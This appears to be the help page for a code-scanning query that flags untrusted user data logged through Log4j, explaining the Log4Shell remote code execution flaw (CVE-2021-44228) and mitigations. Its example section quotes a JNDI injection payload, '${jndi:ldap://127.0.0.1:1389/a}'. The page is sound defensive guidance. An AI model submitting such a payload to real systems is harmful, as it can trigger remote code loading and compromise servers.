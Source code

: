 This query flags up situations in which untrusted user data is included in Log4j messages. If an application uses a Log4j version prior to 2.15.0, using untrusted user data in log messages will make an application vulnerable to remote code execution through Log4j's LDAP JNDI parser (CVE-2021-44228).

As per Apache's Log4j security guide: Apache Log4j2 &lt;=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From Log4j 2.15.0, this behavior has been disabled by default. Note that this query will not try to determine which version of Log4j is used.


## Recommendation
This issue was remediated in Log4j v2.15.0. The Apache Logging Services team provides the following mitigation advice:

In previous releases (&gt;=2.10) this behavior can be mitigated by setting system property `log4j2.formatMsgNoLookups` to `true` or by removing the `JndiLookup` class from the classpath (example: `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`).

You can manually check for use of affected versions of Log4j by searching your project repository for Log4j use, which is often in a pom.xml file.

Where possible, upgrade to Log4j version 2.15.0. If you are using Log4j v1 there is a migration guide available.

Please note that Log4j v1 is End Of Life (EOL) and will not receive patches for this issue. Log4j v1 is also vulnerable to other RCE vectors and we recommend you migrate to Log4j 2.15.0 where possible.

If upgrading is not possible, then ensure the -Dlog4j2.formatMsgNoLookups=true system property is set on both client- and server-side components.


## Example
In this example, a username, provided by the user, is logged using `logger.warn` (from `org.apache.logging.log4j.Logger`). If a malicious user provides `${jndi:ldap://127.0.0.1:1389/a}` as a username parameter, Log4j will make a JNDI lookup on the specified LDAP server and potentially load arbitrary code.

{% sample src="Log4jJndiInjection.java" %}

## References
* GitHub Advisory Database: [Remote code injection in Log4j](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q).
{% cwe-references %}
